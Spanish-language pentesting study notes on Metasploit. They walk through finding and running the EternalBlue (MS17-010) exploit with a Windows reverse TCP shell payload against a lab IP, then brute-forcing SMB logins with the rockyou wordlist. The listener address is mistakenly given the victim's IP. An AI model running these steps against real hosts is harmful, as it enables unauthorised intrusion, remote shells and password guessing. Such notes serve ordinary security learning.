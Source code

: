 
---------

- Iniciar Metasploit 

```bash
msfconsole
```

#### - Buscar Exploit de alguna vulnerabilidad Conocida

```bash
search ms17-010 # Vulnerabilidad de Eternal blue (smb)
search CVE-2011-2523 # Bucar por la vulnerabilidad
search vsFTPd 2.3.4 # Buscar  por la version del sistema
```

![[Pasted image 20251018143139.png]]
- Mostrar Opciones

```bash
show options
```

- Usar un modulo de Explotacion de acuerdo a la vulnerabilidad 

```bash
use exploit/windows/smb/ms17_010_eternalblue 
```


- Setear en metaesploit el destino que se quiere atacar 

```bash
set RHOSTS 10.201.29.171 # ip de la maquina victima -> Remote Hosts
set RPORT 445 # Puerto de la ataque de la maquina victima -> Remote Port
```

- Setear una ReversShell por TCP - El payload es la carga util que se ejecutara una vez se haga la intrusión a la maquina victima 

```bash
set payload windows/x64/shell/reverse_tcp  # Se envia una reverse shell
```

- Configuración de escucha mediante el cual recibiremos la carga útil del payload 
```bash
set LHOST 10.201.29.171 # Ip de Atacante en donde entablaremos conexion 
set LPORT 4444 # Puerto de Atacante en donde entablaremos conexion
```

--- 
#### Explotación del Protocolo SMB 

*Para mas info podemos ver [[p445 - SMB - Server Message Block]] *

Un modulo que nos servirá para la explotación del protocolo smb es el siguiente:

```bash
msfconsole # Activamos metaesploit 
use auxiliary/scanner/smb/smb_login # Usamos el modulo de ataque 
showoptions
set RHOSTS <IpVictima>
set SMBUser <Usuario> # Lo colocamos en caso de saber cual es el usurio
set PASS_FILE /usr/share/wordlist/rockyou.txt # Cargamos el diccionario del cual queremos hacer el ataque de fuerza bruta
set VERBOSE false
run
```
